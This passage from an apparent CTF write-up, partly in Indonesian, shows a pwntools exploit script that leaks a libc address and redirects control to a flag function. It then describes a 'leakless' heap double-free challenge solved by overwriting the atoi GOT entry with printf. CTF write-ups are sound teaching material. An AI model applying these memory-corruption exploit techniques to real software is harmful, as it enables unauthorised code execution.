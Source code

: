 ```py
    r.recvuntil(' = ')
    tmp = int(r.recvline(0), 16)
    r.sendlineafter(': ', 'n')
    r.sendlineafter(': ', 'n')

    r.sendlineafter(': ', str(tmp))
    r.recvuntil(' = ')
    libc_start_main_ret = int(r.recvline(0), 16)
    r.sendlineafter(': ', 'n')
    r.sendlineafter(': ', 'n')

    info('LIBC_START_MAIN_RET %X' % (libc_start_main_ret))
    libc.address = ((libc_start_main_ret - libc.sym['__libc_start_main']) & 0xFFFFFFFFFFFFF000) + libc.address
    info('LIBC_BASE %X' % (libc.address))

    # ROP ALL THE WAY DOWN
    r.sendlineafter(': ', str(tmp))
    r.sendlineafter(': ', 'y')
    r.sendlineafter(': ', str(elf.sym['flag']))
    r.sendlineafter(': ', 'y')

if __name__ == '__main__':
    REMOTE = os.getenv('REMOTE')
    elf = ELF(BINARY, checksec=False)

    if REMOTE:
        r = remote(HOST, PORT)
        libc = ELF('/home/kyra/git/libc-database/db/libc6_2.23-0ubuntu10_amd64.so', checksec=False)
    else:
        r = elf.process(aslr=1)
        libc = r.libc
        info(r.pid)

    exploit(REMOTE)
    r.interactive()
```

## leakless

![leakless](/img/hacktoday-leakless.png)_a pun from IDA, no undo, no surrender._

classical heap note problem, dimana terdapat double-free tanpa ada fungsi `view()` untuk note yang dibuat. Ada beberapa cara yang dapat dilakukan untuk mengotrol RIP sehingga mendapatkan shell dan untuk mendapatkan leak. Namun dari beberapa writeup yang saya baca, hampir semua mengganti GOT table `free` ke `PLT.printf` untuk digunakan sebagai format string. Saya sendiri mengubah GOT `atoi` ke `printf`. Full solver,
